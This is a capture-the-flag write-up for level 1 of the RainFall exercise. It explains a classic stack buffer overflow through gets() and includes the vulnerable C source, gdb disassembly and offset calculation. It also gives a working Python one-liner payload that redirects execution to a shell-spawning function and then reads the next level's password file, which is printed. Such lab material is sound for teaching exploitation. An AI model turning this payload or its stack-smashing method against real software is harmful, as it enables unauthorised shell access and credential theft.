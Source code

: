 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector -static source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the gets function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read.

In this case, the program's stack is allocated 80 bytes:
```
# Allocating 80 bytes on the stack
0x08048486 <+6>:     sub    $0x50,%esp

# Calculate the address of esp + 16, since we allocated 80 bytes for the stack our buffer will therefore be 64 bytes.
0x08048489 <+9>:     lea    0x10(%esp),%eax
```

The buffer is 64 bytes long. Therefore, passing more than 64 bytes to the program will result in a buffer overflow. Our goal is to overflow the stack until we reach the return address of the main function, which is 12 bytes after the buffer.
> If the stack layout isn't as straightforward as the one in this exercise, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However when possible try to understand the stack layout with the `sub` instruction.

Anything written beyond those 76 bytes (64 bytes of buffer + 12 bytes to reach the return address) will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Now, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
64 bytes + 12 bytes = 76 bytes
\x08\x04\x84\x44 = 0x08048444 address of run function

level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && cat) | ./level1
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.
